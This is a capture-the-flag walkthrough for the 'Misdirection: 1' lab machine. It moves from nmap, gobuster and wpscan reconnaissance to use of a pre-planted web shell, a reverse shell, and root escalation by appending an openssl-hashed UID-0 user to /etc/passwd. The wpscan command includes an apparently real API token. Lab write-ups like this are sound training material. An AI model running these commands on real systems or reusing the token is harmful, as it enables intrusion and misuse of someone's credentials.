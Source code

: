 # MISDIRECTION: 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.122.1/24 -oN host_discovery.txt`

![964ae28c347ea800c0ca3cb1af9404fc.png](./_resources/f8184439c1bc485198e1fbabbc256194.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.122.128 -oN full_service_enum-sC.txt`
![c0118f47fe3f23543752037d1cd3819a.png](./_resources/4482c4bf993e417685148f57d11af681.png)

`nmap -sV -sU -F 192.168.128.128 -oN udp-sC-sV.txt`

## 1.3 Web 80
### 1.3.1 Gobuster
`gobuster dir -u http://192.168.122.128 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt --wildcard -o info.txt`
`gobuster dir -u http://192.168.122.128 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt --wildcard -o info1.txt`
You will need grep data that not contain 400 status code:

![57f359a1ac8c6bb2a67ff4619507d0be.png](./_resources/cf75231c96414c28b812d0e075b996fa.png)

### 1.3.2 User manual in main page
`http://192.168.122.128/init/static/evote_user_manual.pdf`
It shows us the app version:
![e0e864b44d766ba704d46023ccf3cbee.png](./_resources/898f5658981f44ad835074360dc57734.png)

### 3.3.3 Web2py exploit (but not usable)
![1c2993967314b90787c70b7e71328f70.png](./_resources/db6e6e2312d44a9bb5285d93f093f2e3.png)

## 1.4 Web 8080
### 1.4.1 Dirb
![8d73d362506f8d8a4312bbd596efd2a3.png](./_resources/e1b093ad4cea4cd0b9eef71ba3285f35.png)

Interesting, the target have wordpress, debug and shell directories.

### 1.4.2 Wpscan
`wpscan --url http://192.168.122.128:8080/wordpress/ -e ap,at,tt,cb,dbe,u1-20,m --plugins-detection aggressive --disable-tls-checks --api-token 7MBL9noH6s6pOW5qAM6boXVS5wEMayvrBaaoBbMaIKg -o all-info.txt`

### 1.4.3 Debug dir (web shell)
![b83066b3a593994bb2a59b4bf2fea860.png](./_resources/7b7b9241d3f5418ba9fbc2194d746a33.png)
Here we have a web shell previously uploaded by an attacker. I will use it.


# 2 Exploitation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
For reverse shell we can use the web shell:

![ff339e186917b0d67b44f0eccb33c84a.png](./_resources/30d8685843284d37ad9ed3289aa98dbb.png)


# 3 Post-exploitation
LinEnum returns some information:
![794419220afc11924c878cccbaad64b2.png](./_resources/4f318c4c53854d73ac64ab2049a9b0fa.png)
![bcabaf737f7668b53158a3050497cad8.png](./_resources/182c1ba93b234e8698ff7261c793c224.png)

## 3.1 First user
`sudo -u brexit /bin/bash`

![928841574ea280986c8302033b2610e6.png](./_resources/dbdf0674767b42d2be38840ba5075579.png)

## 3.2 Getting root with openssl
Since we have write access as brexit user, we can use openssl to escalate privilege:
`openssl passwd -1 -salt foo foo@12345`
![2016a7f9e96d0bba799880d83c8b9a24.png](./_resources/80bcb574c6ff4cad840f3f9e52854a92.png)

With `echo`, let's add a new user manually:
`echo 'foo:$1$foo$vIxZ6xcPqixL6sHxOWInM1:0:0:root:/root:/bin/bash' >> /etc/passwd`

obs: Its necessary to use single quotes, or the new user is not added.

![c822d5c8d2b6c604aa7e0bfa3ca82185.png](./_resources/483d8f387d9f4c9c90c9eed9ec538208.png)
